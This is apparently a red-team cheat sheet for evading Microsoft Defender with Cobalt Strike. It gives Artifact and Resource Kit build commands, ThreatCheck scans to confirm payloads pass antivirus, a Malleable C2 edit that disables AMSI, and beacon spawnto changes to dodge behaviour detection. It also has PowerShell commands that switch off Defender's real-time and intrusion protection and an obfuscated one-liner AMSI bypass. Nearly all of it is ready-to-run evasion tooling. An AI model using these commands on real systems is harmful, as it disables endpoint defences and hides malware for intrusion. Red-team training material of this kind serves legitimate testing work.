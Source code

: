 # Defender Antivirus

# Compile the Artifact kit

    $ ./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts

# Compile the resource kit

    $ ./build.sh /mnt/c/Tools/cobaltstrike/resources

# Verify if the payload is AV Safe

    PS> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
    PS> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI

# Load the CNA file: 

    Cobalt Strike > Script Manager > Load_ and select the CNA
THEN

    Use Payloads > Windows Stageless Generate All Payloads to replace all of your payloads in `C:\Payloads`

# Disable AMSI in Malleable C2 profile

    $ vim c2-profiles/normal/webbug.profile

# Right above the `http-get` block, add the following:

    post-ex {
        set amsi_disable "true";
    }

# Verify the modified C2 profile

    attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile

# Creating custom C2 profiles

    https://unit42.paloaltonetworks.com/cobalt-strike-malleable-c2-profile/

### Note: `amsi_disable` only applies to `powerpick`, `execute-assembly` and `psinject`.  It does not apply to the powershell command.

# Behaviour Detections (change default process for fork & run)

    beacon> spawnto x64 %windir%\sysnative\dllhost.exe
    beacon> spawnto x86 %windir%\syswow64\dllhost.exe

# Change the default process for psexec

    beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
    beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

# Disable Defender from local powershell session

    Get-MPPreference
    Set-MPPreference -DisableRealTimeMonitoring $true
    Set-MPPreference -DisableIOAVProtection $true
    Set-MPPreference -DisableIntrusionPreventionSystem $true

# AMSI bypass

    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# InjectAMSIBypass BOF

https://github.com/boku7/injectAmsiBypass
